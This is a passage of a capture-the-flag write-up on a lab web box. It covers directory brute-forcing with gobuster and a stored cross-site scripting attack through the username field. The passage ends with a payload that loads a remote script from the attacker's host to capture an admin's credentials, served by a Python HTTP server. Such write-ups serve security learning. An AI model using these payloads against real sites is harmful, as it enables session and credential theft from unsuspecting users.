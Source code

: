 Reading the comment, we know `admin` will be seeing our comments. So, `XSS` comes to mind, but it is only possible to leave comments after logging in.

> To comment you need to be logged in. To login please visit this link.

Brute-forcing for directories.

```console
$ gobuster dir -u 'http://10.10.230.27/' -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x php
...
/index.php            (Status: 200) [Size: 563]
/blog.php             (Status: 200) [Size: 3102]
/login.php            (Status: 200) [Size: 523]
/register.php         (Status: 200) [Size: 643]
/dir                  (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> http://10.10.230.27/assets/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/config.php           (Status: 200) [Size: 0]
...
```

## Foothold as jack

### Discovering XSS

I created an account using the discovered `/register.php` endpoint.

![Registering an account](web_register.webp){: width="600" height="280" }

After creating an account and logging in, I can now leave comments.

![Comment form](web_comment_form.webp){: width="600" height="300" }

Trying an XSS payload on a comment, special characters are html encoded.

![Comment form](web_xss_comment.webp){: width="450" height="100" }

>Name: jxf; \
>Comment: &amp;lt;script&amp;gt;alert(&amp;quot;Test&amp;quot;)&amp;lt;/script&amp;gt;

But `Comment` is not the only user-controlled input; `Name` is also user-controlled.

Registering an account with an XSS payload as a username: `<script>alert("Test")</script>`

Leaving a comment with this account, the payload works:

![XSS Alert Payload](web_xss_proof.webp){: width="550" height="350" }

### Using XSS to Get Credentials

Registering another account with the username: `<script src="http://10.11.63.57/xss.js"></script>`

Starting a Python HTTP server.

```console
$ python3 -m http.server 80
```
